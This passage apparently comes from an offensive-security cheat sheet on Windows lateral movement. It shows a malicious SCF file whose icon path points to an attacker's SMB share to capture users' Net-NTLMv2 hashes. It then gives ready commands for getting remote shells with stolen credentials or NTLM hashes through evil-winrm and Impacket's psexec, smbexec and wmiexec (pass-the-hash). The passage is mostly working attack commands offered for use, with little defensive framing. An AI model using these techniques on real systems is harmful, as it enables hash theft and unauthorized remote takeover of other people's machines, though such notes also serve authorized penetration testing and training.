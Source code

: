 Then, we will create the malicious `scf` file. It will contain a file in our shared folder as the icon:

```text
[Shell]
Command=2
IconFile=\\10.10.10.2\smbFolder\pwned.ico
[Taskbar]
Command=ToggleDesktop
```

We will then upload this file to the target machine and we will wait until a user sees it. The `Net-NTLMv2` of the user that has loaded the icon is going to be listed in our `SMB` server.


### Evil-WinRM

In the case we have the `WinRM` service available in the target machine and we have valid credentials, we can connect to it using the following command:

```bash
evil-winrm -u 'user' -p 'password' -i 10.10.10.1
```


### PsExec

Once we have valid credentials we can obtain a `powershell` in the target machine:

```bash
psexec.py domain.local/user:password@10.10.10.1
```


### SmbExec

Once we have valid credentials and having the `SMB` service available, we can obtain a shell in the target machine:

```bash
smbexec.py domain.local/user:password@10.10.10.1 cmd.exe
```


### WmiExec

Once we have valid credentials we can obtain a shell in the target machine using `wmi`:

```bash
wmiexec.py domain.local/user:password@10.10.10.1 cmd.exe
```


### PassTheHash

If we have validad `NTLM` hashes, we will use one of the following commands to connect to the target machine:

```bash
psexec.py domain.local/user@10.10.10.1 -hashes {NTLM HASH}
```
